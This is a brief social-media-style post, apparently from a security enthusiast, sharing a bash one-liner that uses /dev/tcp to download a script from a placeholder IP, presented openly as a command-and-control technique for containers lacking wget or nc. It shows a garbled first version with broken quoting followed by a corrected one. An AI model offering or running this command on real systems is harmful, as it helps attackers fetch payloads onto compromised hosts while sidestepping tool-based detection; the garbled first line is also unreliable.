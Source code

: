 One liner bash for C2 without using any native program like wget, nc etc, esp containers. 

#bash-c "exec 3<>/dev/tcp/IP/80; echo -e GET/ youfile.sh HTTP/1.1\r\nHost; ip\r\nConnection: close\r\n\r\n' >&3; cat <&3-> yourfile.sh'
```bash
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

Don’t forget the reactions and stars⭐️! 
They fuel my energy to post such contents🔋✨.
